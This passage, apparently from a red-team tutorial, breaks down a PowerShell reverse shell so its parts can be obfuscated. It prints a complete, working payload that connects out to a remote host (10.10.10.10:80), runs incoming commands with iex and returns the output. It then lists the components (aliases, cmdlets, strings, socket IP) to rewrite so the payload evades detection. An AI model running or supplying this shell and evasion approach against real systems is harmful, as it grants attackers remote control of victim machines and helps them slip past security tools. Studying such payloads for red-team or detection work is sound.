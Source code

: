 ## Breaking Down a Reverse Shell

Let’s move into a more practical example by breaking down the vanilla PowerShell reverse shell. There are lots of components within PowerShell scripts that can be represented differently. While some components are obvious and straight forward, others exist that you may or may not have thought about changing. 

Let's familiarize ourselves with the raw payload. To keep it readable, I have converted the one-liner to a multi-line derivative. This payload will establish a connection from the machine it was launched on to a listening socket on a remote computer. While the connection is established, the machine it was intiated on will execute commands sent from the remote machine and will send the response back through the connection. With the design of the sendback variables, it will look just like the typical PowerShell command line. 

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String )
  $sendback2 = $sendback + "PS " + (pwd).Path + "> "
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length)
  $stream.Flush()
}
$client.Close()
```

### Payload Components

Nearly all the components of a payload can be represented differently. Anything from string manipulation or pipeline chaining is fair game. Let's take a look at the components we will be targeting from the reverse shell payload.

* Aliases (iex)
* Cmdlets (New-Object)
* Integers (4444)
* Methods ($client.GetStream())
* Namespace Classes (System.Net.Sockets.TCPClient)
* Pipes (|)
* Pipeline Variables ($_)
* Socket IP (New-Object System.Net.Sockets.TCPClient("10.10.10.10",80))
* Strings ("value" | 'value')
* Variables ($client)

### Generators

This is where the real fun begins and where you can let your creativity shine. What we'll do here is for each componented listed above, I will provide a sample generator that will provide a new value to take it's place. Handling each component separetely will enable us to drastically expand upon this approach, which I'll get into later.
